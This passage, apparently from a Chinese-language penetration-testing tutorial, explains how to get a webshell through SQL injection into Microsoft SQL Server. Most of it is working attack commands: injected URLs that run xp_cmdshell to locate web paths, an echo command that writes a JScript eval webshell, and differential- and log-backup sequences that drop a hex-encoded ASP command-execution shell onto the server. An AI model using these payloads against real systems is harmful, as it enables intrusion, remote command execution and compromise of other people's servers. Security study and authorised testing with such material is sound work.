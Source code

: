 当然还不行可能xplog70.dll需要恢复，看具体情况来解决吧

接下来我们先来看cmd中怎么查找文件。

```mssql
C:\Users\Y4er>for /r e:\ %i in (1*.php) do @echo %i
e:\code\php\1.php
C:\Users\Y4er>
```

那么我们只需要建立一个表 存在一个char字段就可以了

```mssql
http://192.168.130.137/1.aspx?id=1;CREATE TABLE cmdtmp (dir varchar(8000));

http://192.168.130.137/1.aspx?id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'
```

然后通过注入去查询该表就可以了。

------

此时我们拿到绝对路径之后，我们接着往下看怎么拿shell

#### 2. xp_cmdshell拿shell

xp_cmdshell这个存储过程可以用来执行cmd命令，那么我们可以通过cmd的echo命令来写入shell，当然前提是你知道web目录的绝对路径

```mssql
http://192.168.130.137/1.aspx?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\404.aspx' ;
```

由于cmd写webshell的主意这些转义的问题 推荐使用certutil或者vbs什么的来下载

#### 3. 差异备份拿shell

```MSSQL
1. backup database 库名 to disk = 'c:\bak.bak';--

2. create table [dbo].[test] ([cmd] [image]);

3. insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E)

4. backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--
```

因为权限的问题，最好不要备份到盘符根目录

当过滤了特殊的字符比如单引号，或者 路径符号 都可以使用定义局部变量来执行。

#### 4. log备份拿shell

LOG备份的要求是他的数据库备份过，而且选择恢复模式得是完整模式，至少在2008上是这样的，但是使用log备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式

```mssql
1. alter database 库名 set RECOVERY FULL 

2. create table cmd (a image) 

3. backup log 库名 to disk = 'c:\xxx' with init 

4. insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) 

5. backup log 库名 to disk = 'c:\xxx\2.asp'
```
